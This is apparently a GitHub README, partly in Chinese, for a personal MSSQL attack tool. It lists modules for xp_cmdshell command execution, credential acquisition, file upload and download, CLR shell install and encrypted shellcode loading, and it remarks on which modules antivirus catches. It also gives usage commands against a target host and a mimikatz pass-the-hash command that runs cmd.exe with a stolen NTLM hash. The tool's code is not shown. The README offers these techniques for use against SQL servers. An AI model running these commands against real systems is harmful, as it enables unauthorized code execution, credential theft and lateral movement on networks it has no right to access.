## MSSQL Shell ##
自用mssql shell利用工具

```text
0.exit
1.xp_cmdshell (Easy to be killed by antivirus)
2.startup_components
3.Custom execution sql
4.Credentials acquisition
5.write file
6.read file
7.com_run_execute (Easy to be killed by antivirus)
8.enumerate database
9.sql tools clr install
10.sql tools clr uninstall
11.clr shell
```
注:这里的CLR直接引用https://github.com/Ridter/MSSQL_CLR/ 现成的DLL

install module
```text
pip install impacket
pip install pymssql
```

使用方法
```text
Example:
python .\mssql_shell.py -i <host> -u sa -a sa -d testx -p 996
python .\mssql_shell.py -i <host> -u sa -a sa -d testx
python .\mssql_shell.py -i <host> -u sa -a sa

#windows验证
python .\mssql_shell.py -i <host> --windows
python .\mssql_shell.py -i <host> -d testx -p 996 --windows
python .\mssql_shell.py -i <host> -d testx --windows

Usage: mssql_shell.py [options]

Options:
  -h, --help   show this help message and exit
  -i HOST      target mssql host
  -p PORT      target mssql port(default:1433)
  -d DBNAME    DBName (default:master)
  -u USERNAME  Auth username
  -a PASSWORD  Auath password
  --windows    windows certificate Auth
```

windows验证注意事项:
```text
cmd
runas /noprofile /netonly /user:yayi\Administrator cmd

mimikatz
privilege::debug
sekurlsa::pth /user:<username> /domain:WORKGROUP /ntlm:<ntlm> "/run:cmd.exe /restrictedadmin"
```


本地验证CLR Shell需要输入密码/ntlm (验证成功后重新进入不需要重新输入)



***xp_cmdshell Fake Shell***



***startup_components***



***Custom execution sql***



***Credentials acquisition***



***write file(upload)***  
需要开启Ole Automation Procedures组件


***read file(download)***  
需要开启Ole Automation Procedures组件


***COM Run Execute***



***CLR Shell***



***CLR Encrypt ShellCode Load***

